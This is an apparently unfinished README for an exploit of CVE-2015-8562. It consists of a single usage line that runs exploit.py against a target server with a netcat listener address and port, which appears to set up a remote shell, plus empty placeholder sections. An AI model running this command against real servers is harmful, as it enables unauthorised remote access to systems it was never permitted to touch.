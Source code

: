 # CVE-2015-8562

python2

## Preliminary

python python exploit.py -t {SERVER_URL} -l {NC_URL} -p {PORT}

## Record Process


## Reference

TO UPDATE